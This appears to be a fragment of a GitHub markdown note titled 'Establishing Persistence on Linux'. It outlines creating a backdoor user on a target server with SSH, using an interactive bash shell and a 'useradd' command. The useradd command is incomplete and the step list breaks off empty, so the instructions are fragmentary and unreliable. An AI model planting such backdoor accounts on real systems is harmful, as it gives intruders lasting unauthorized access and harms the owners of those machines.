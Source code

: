 # Establishing Persistence on Linux

Creating backdoor user  
This will only work if the target server is running SSH  
1. Open Shell
2. ```/bin/bash -i```
3. ```useradd -m (name) -s /```
4. 
